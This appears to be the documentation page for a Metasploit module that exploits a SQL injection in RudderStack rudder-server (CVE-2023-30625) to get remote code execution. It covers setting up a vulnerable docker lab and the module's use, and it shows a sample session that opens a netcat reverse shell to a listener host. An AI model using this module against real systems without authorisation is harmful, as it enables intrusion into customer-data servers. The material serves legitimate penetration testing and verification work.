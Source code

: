 ## Vulnerable Application

RudderStack is an open-source Customer Data Platform (CDP) that helps organizations collect,
unify, and route customer data to various destinations.
A Customer Data Platform is a software system that centralizes and manages customer data from multiple sources,
providing a unified view of customer interactions and behaviors.
RudderStack is an independent, stand-alone system with a dependency only on the database (PostgreSQL).
Its backend is written in Go with a rich UI written in React.js.

This Metasploit exploit module targets a SQL injection vulnerability (CVE-2023-30625) in RudderStack's `rudder-server`,
an open-source Customer Data Platform (CDP). The vulnerability affects versions of `rudder-server` before 1.3.0-rc.1.
By exploiting this flaw, an attacker can execute arbitrary SQL commands,
potentially leading to Remote Code Execution (RCE) since the `rudder` role in PostgreSQL has superuser permissions by default.
This issue was discovered and reported by GHSL team member @Kwstubbs (Kevin Stubbings).
Check [here](https://securitylab.github.com/advisories/GHSL-2022-097_rudder-server/) for full disclosure writeup.

**Note: The backend code of rudder-server is written with Golang and can also be compiled for Windows.
Due to the insufficient build instructions for Windows platforms, the Windows target is disabled in this exploit module.**

## Testing
For installing the vulnerable version follow the steps below,
1. Download [docker-compose.yml](https://raw.githubusercontent.com/rudderlabs/rudder-server/master/rudder-docker.yml) file.
2. Replace `<your_workspace_token>` in this file with your workspace workspace-token
Check [here](https://www.rudderstack.com/docs/get-started/rudderstack-open-source/data-plane-setup/docker/#workspace-token)
for obtaining workspace-token.
3. Edit `rudder-server:latest` version as `rudder-server:1.2.5` inside the docker-compose.yml file.
4. Run `docker compose -f rudder-docker.yml up -d`

After these steps the rudder-server API will be exposed on the `http://localhost:8080/` address.

## Verification Steps

1. msfconsole
2. Do: `use exploit/multi/http/rudder_server_sqli_rce`
3. Do: `set RHOST [IP]`
4. Do: `set RPORT [PORT]`
5. Do: `check`
6. You should get a shell.

## Options

## Scenarios

```
msf > use exploit/multi/http/rudder_server_sqli_rce 
[*] Using configured payload cmd/unix/reverse_netcat
msf exploit(multi/http/rudder_server_sqli_rce) > set rhosts 192.168.1.20
rhosts => 192.168.1.20
msf exploit(multi/http/rudder_server_sqli_rce) > set lhost 192.168.1.10
lhost => 192.168.1.10
msf exploit(multi/http/rudder_server_sqli_rce) > set lport 4444
lport => 4444
msf exploit(multi/http/rudder_server_sqli_rce) > run

[*] Started reverse TCP handler on 192.168.1.10:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. ForceExploit is enabled, proceeding with exploitation.
[*] Detected rudder version: Unknown
[*] Triggering RCE via crafted SQL query...
id
uid=70(postgres) gid=70(postgres) groups=70(postgres),70(postgres)

```
